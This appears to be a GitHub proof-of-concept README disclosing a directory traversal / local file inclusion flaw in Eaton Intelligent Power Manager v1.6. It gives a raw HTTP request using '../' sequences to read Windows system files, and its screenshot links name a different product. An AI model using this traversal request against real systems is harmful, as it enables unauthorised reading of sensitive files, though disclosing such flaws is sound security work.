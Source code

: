 # Eaton-Intelligent-Power-Manager-Local-File-Inclusion
Local file inclusion in Eaton Intelligent Power Manager  v1.6 allows an attacker to include a file, it can lead to sensitive information disclosure, denial of service and code execution.

# PoC
To exploit vulnerability, someone could use 'http://[host]/../../../../' request to get some informations from the target. 
  For example: http://[host]/../../../../Windows/win.ini'


```
GET /../../../../Windows/boot.ini HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-1.png)

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-2.png)
